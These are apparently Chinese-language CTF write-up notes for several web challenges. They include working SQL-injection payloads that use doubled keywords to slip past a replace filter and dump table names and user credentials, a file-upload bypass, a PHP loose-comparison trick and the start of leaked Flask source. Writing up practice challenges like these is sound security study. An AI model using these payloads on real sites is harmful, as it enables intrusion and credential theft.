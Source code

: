 ## 极客大挑战-2019-BabySQL
后台用的replace过滤，可用双写绕过
```
?username=1&password=1%27uniunionon%20selselectect%201,2,3%23

?username=1&password=1%27uniunionon%20selselectect%201,database(),group_concat(table_name)%20frunionom%20infounionrmation_schema.tables%20whewherere%20table_schema=database()%23

uniunionon seselectlect 1,database(),group_concat(column_name) frfromom infofromrmation_schema.columns whefromre table_name='b4bsql'%23

uniunionon seleselectct 1,database(),group_concat(id,username,passwofromrd) ffromrom b4bsql %23
```

## ACTF2020-新生赛-Upload

chrome关掉JS绕过前端验证，上传phtml以及修改文件类型

## ACTF2020-新生赛-BackupFile

dirsearch扫到index.php.bak

```php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}
```

弱类型比较，== 比较，key=123即可


## HCTF-2018-admin

注册登录后，在修改一处源码有泄露

routes.py
```py
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from flask import Flask, render_template, url_for, flash, request, redirect, session, make_response
from flask_login import logout_user, LoginManager, current_user, login_user
from app import app, db
from config import Config
from app.models import User
from forms import RegisterForm, LoginForm, NewpasswordForm
from twisted.words.protocols.jabber.xmpp_stringprep import nodeprep
from io import BytesIO
from code import get_verify_code

@app.route('/code')
```